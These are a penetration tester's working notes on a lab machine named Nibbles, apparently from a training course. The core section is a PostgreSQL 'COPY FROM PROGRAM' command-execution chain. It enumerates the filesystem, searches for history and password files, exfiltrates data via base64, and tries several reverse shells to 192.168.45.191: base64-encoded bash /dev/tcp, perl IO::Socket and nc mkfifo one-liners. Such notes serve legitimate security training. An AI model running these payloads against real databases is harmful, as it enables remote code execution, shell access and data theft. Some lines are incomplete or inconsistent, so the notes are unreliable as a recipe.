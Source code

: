 # Nibbles Notes

## Data 

IP: 192.168.182.47
OS: Linux
Arch: Debian 10 Buster
Hostname: 
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services: 21, 22,80, 139, 445, 5437 (Postgresql)
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Nibbles-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson';
COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson/ftp';
COPY cmd_exec FROM PROGRAM 'ls -la /';
COPY cmd_exec FROM PROGRAM 'ls -la /opt';

COPY cmd_exec FROM PROGRAM 'ls -la /srv';
COPY cmd_exec FROM PROGRAM 'ls -la /srv/ftp/';
COPY cmd_exec FROM PROGRAM 'ls -la /home'; -- No postgresql key
COPY cmd_exec FROM PROGRAM 'find / -type f -name page2.html 2>/dev/null';
COPY cmd_exec FROM PROGRAM 'ls -la /var/www';

COPY cmd_exec FROM PROGRAM 'ls -la /var/www/html';
COPY cmd_exec FROM PROGRAM 'ls -la /etc/apache2/sites-enabled/000-default.conf';
COPY cmd_exec FROM PROGRAM 'cat /etc/apache2/sites-enabled/000-default.conf'; -- breaks the postgresql

-- Perms!!  
-- Create a .ssh, id_rsa! 
COPY cmd_exec FROM PROGRAM 'mkdir /home/wilson/.ssh'; -- no permission to do so

COPY cmd_exec FROM PROGRAM 'echo VGVzdGluZyAxMjMK | base64 -d > /tmp/test.txt';
COPY cmd_exec FROM PROGRAM 'cat /tmp/test.txt';

COPY cmd_exec FROM PROGRAM 'which nohup';
-- /usr/bin/nohup

echo "nohup /dev/shm & "

COPY cmd_exec FROM PROGRAM 'which curl'; -- wget /usr/bin/wget

COPY cmd_exec FROM PROGRAM 'wget ';

-- Use UTF-16LE by mistake
COPY cmd_exec FROM PROGRAM 'echo LwBiAGkAbgAvAGIAYQBzAGgAIAAtAGkAIAA+ACYAIAAvAGQAZQB2AC8AdABjAHAALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA5ADEALwA2ADkANgA5ACAAMAA+ACYAMQAKAA==
 | base64 -d > /dev/shm/bash-i.sh';
COPY cmd_exec FROM PROGRAM 'nohup /dev/shm/bash-i.sh &';

COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.191:8443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- does not work:
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzk2OTYgMD4mMQo=
 | base64 -d | /bin/bash';


COPY cmd_exec FROM PROGRAM 'find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null';

-- Fails
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.191 9696 >/tmp/f';
-- Fails
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzE1MDAwIDA+JjE= | base64 -d | bash';

COPY cmd_exec FROM PROGRAM 'find . -type d -name *onf* 2>/dev/null | ls | xargs grep -rie ''passw''';


```

```
COPY files FROM PROGRAM ‘perl -MIO -e ‘’$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”192.168.45.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’’’;
```

```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.145.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';;																					

SELECT * FROM cmd_exec;

-- Cant chmod 
-- 000-.conf

-- exfil with base64 worked!
COPY cmd_exec FROM PROGRAM 'cat /etc/hosts |base64 ';
```
#### Todo 

- read credentials from box
- write id_rsa, shell onto the box and use nohup to execute it so that it does not try to send stdout to the table


#### Timeline of tasks complete

- Automated Recon
- Searchsploited:
	- PostgreSQL
	- Apache has local PrivEsc - linux/local/46676.php
- Manual Web:
	- Need to Directory bust


[miguelaeh on Github Issue states:](https://github.com/bitnami/charts/issues/5150) *"The databases `template0` and `template1` are used to create new database when using the `CREATE DATABASE` command"*

There are no tables

[The default Postgres user is `postgres`](https://enterprisedb.com/postgres-tutorials/connecting-postgresql-using-psql-and-pgadmin) 